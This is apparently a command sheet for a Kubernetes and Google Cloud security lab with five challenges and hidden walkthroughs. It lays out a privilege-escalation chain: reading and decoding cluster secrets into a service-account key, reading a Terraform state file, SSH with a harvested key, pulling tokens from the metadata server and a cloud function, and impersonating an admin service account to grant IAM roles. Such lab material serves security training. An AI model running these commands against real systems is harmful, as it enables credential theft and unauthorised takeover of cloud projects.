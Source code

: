 # Commands

<details>
  <summary>***** Challenge 1 *****</summary>

## Challenge 1

set cluster IP
#####
    export IP=<IP>

Access API
#####
    curl -k https://$IP/api

Set your token as environment variable.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

  <details>
    <summary>Walkthrough Challenge 1</summary>
  
  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets
  
  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

  Safe blob to file
  #####
      echo -n <secret-value> | base64 -d  > /tmp/sa_key.json
  
  </details>

</details>

#

<details>
  <summary>***** Challenge 2 *****</summary>

## Challenge 2

set project id
#####
    export PROJECT_ID=nodal-seer-306517

activate service account
#####
    gcloud auth activate-service-account --key-file /tmp/sa_key.json

check service account
#####
    gcloud auth list

  <details>
    <summary>Walkthrough Challenge 2</summary>

  List files on bucket
  #####
    gsutil ls gs://file-uploads-$PROJECT_ID

  Read state file on bucket
  #####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  
  </details>

</details>

#

<details>
  <summary>***** Challenge 3 *****</summary>

## Challenge 3

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  <details>
    <summary>Walkthrough Challenge 3</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Challenge 4 *****</summary>

## Challenge 4

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Challenge 4</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-challenge4

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    curl -s -X POST https://europe-west1-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>


